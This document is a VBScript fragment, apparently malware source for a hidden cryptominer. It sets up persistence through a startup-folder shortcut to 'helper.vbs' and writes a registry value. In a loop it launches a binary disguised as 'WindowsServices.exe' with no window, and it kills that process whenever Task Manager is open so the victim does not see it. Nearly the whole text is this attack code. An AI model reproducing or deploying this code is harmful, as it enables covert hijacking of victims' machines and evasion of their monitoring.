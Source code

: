 ```vb
strFolder = objws.GetParentFolderName(objFile)
strPath = strFolder & "\"
startupPath = ws.SpecialFolders("startup")

miner = Chr(34) & strPath & "WindowsServices.exe" & Chr(34)

MyScript = "helper.vbs"


While True
	key = Empty
	key = ws.regread (nkey)
	If (not IsEmpty(key)) then
	
		ws.RegWrite nkey, 2, "REG_BINARY"	
	End if
	
	If (not objws.fileexists(startupPath & "\helper.lnk")) then
		Set link = ws.CreateShortcut(startupPath & "\helper.lnk")
		link.Description = "helper"
		link.TargetPath =chr(34) & strPath & "helper.vbs" & chr(34)
		link.WorkingDirectory = strPath
		link.Save
	End If

	Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")

	call procheck(colProcess, "installer.vbs")

	Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name Like '%WindowsServices.exe%'")
	Set tskProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name Like '%Taskmgr.exe%'")

	if colProcess.count = 0 And tskProcess.count = 0  then

		ws.Run miner, 0
	
	ElseIf colProcess.count > 0 And tskProcess.count > 0 then

		For Each objProcess In colProcess
			ws.run "taskkill /PID " & objProcess.ProcessId , 0 
		Next
		
	end if
	WScript.Sleep 3000
Wend



'---------------------------------------------------------------------------------

sub procheck(checkme, procname)

For Each objProcess In checkme
	vaprocess = objProcess.CommandLine
	
		if instr(vaprocess, procname) then
			Exit sub
		End if
	
Next
```